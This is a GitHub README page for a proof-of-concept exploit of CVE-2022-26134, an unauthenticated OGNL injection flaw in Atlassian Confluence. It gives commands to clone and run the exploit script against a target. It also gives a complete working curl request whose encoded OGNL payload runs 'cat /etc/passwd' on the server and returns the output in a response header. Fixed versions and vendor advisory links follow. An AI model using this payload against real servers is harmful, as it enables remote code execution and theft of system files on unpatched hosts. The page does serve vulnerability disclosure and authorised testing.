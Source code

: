 # CVE-2022-26134

[PoC] Atlassian Confluence (CVE-2022-26134) - Unauthenticated OGNL injection vulnerability (RCE)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/kh4sh3i](https://github.com/kh4sh3i) |
| Url      | [https://github.com/kh4sh3i/CVE-2022-26134](https://github.com/kh4sh3i/CVE-2022-26134)                                               |
| Stars    | 3                                                          |
| License  | Creative Commons Zero v1.0 Universal                                                        |

<details>

<summary>Topic / Tags</summary>

* atlassian* atlassian-jira* code* confluence* confluent-platform* cve* cve-2022-26134* jira* payload* poc* rce* remote

</details>

## Readme

### CVE-2022-26134 - OGNL injection vulnerability.

In affected versions of Confluence Server and Data Center, an OGNL injection vulnerability exists that would allow an unauthenticated attacker to execute arbitrary code on a Confluence Server or Data Center instance.


### PoC:

```bash
git clone https://github.com/kh4sh3i/CVE-2022-26134
cd CVE-2022-26134
python3 cve-2022-26134.py https://target.com CMD
```


Example with CURL command:
```bash
curl --head -k "https://YOUR_TARGET.com/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22cat%20%2Fetc%2Fpasswd%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D" 
```

Then, the result of the command will be reflected in the parameter `X-Cmd-Response` in the response header. 

### Fixed Versions
Released versions 7.4.17, 7.13.7, 7.14.3, 7.15.2, 7.16.4, 7.17.4 and 7.18.1 contain a fix for this issue.


### Reffrence
* [confluence](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html)
* [jira](https://jira.atlassian.com/browse/CONFSERVER-79016)




## Get the content

```
git clone https://github.com/kh4sh3i/CVE-2022-26134
cd CVE-2022-26134
```

{% embed url="https://github.com/kh4sh3i/CVE-2022-26134" %}

<figure><img src="https://avatars.githubusercontent.com/u/64693844?v=4" alt=""><figcaption><p>kh4sh3i</p></figcaption></figure>
